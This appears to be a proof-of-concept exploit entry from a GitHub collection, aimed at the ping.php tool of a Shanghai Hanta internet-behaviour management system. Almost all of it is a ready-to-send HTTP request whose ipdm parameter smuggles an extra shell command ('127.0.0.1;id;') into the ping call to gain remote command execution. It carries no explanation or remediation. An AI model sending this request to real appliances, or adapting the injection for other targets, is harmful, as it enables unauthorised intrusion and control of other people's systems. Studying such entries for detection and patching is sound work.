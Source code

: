 # shanghaihanta_ping.php_rce

from: https://github.com/wy876/POC/blob/main/%E4%B8%8A%E6%B5%B7%E6%B1%89%E5%A1%94/%E4%B8%8A%E6%B5%B7%E6%B1%89%E5%A1%94%E7%BD%91%E7%BB%9C%E7%A7%91%E6%8A%80%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8%E4%B8%8A%E7%BD%91%E8%A1%8C%E4%B8%BA%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
product:上海汉塔网络科技有限公司上网行为管理系统
```

GET /dgn/dgn_tools/ping.php?ipdm=127.0.0.1;id;&ps=64&cnt=1 HTTP/1.1
Host: 
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=515a7b9608e8a01fd03889ccf28bf590
Upgrade-Insecure-Requests: 1
```
